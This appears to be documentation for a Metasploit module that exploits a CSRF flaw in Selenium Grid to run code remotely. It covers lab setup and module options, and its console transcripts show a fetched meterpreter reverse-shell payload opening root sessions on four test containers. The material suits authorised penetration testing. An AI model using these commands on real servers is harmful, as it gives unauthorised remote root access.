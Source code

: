 ## Vulnerable Application

Selenium Server (Grid) <= 4.27.0 (latest version at the time of this writing)
allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.
At least, the number of sessions must be fewer than maxSessions for the exploit to succeed.

The vulnerability affects:

    * Selenium Server (Grid) <= 4.27.0 (latest version at the time of this writing)

This module was successfully tested on:

    * selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04


### Installation

1. `docker pull selenium/standalone-firefox:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-firefox:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 75 seconds.


## Scenarios
### selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
```
msf > use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   TIMEOUT  75               yes       Timeout for exploit (seconds)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      NnnZmAGfjJoa     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4445
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected, which is vulnerable.
[*] Started session (3191e005-977b-40c9-8c70-7e2f4ef4f922).
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:43182) at 2025-01-04 10:01:09 +0900
[*] Failed to delete the session (3191e005-977b-40c9-8c70-7e2f4ef4f922). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4446
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Started session (dc849fa9-0b61-4862-8766-21f1cb47c827).
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:54410) at 2025-01-04 10:03:37 +0900
[*] Failed to delete the session (dc849fa9-0b61-4862-8766-21f1cb47c827). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Ubuntu 18.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
```
msf exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4447
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Started session (af8d64bc-cdf6-4a03-8706-e90bddbee1c2).
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.16:40680) at 2025-01-04 10:05:44 +0900
[*] Failed to delete the session (af8d64bc-cdf6-4a03-8706-e90bddbee1c2). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.4
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04
```
msf exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4448
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Started session (1657b5ac-c514-431f-8c83-761c14012869).
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.16:44868) at 2025-01-04 10:10:38 +0900
[*] Failed to delete the session (1657b5ac-c514-431f-8c83-761c14012869). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.5
OS           : Ubuntu 24.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
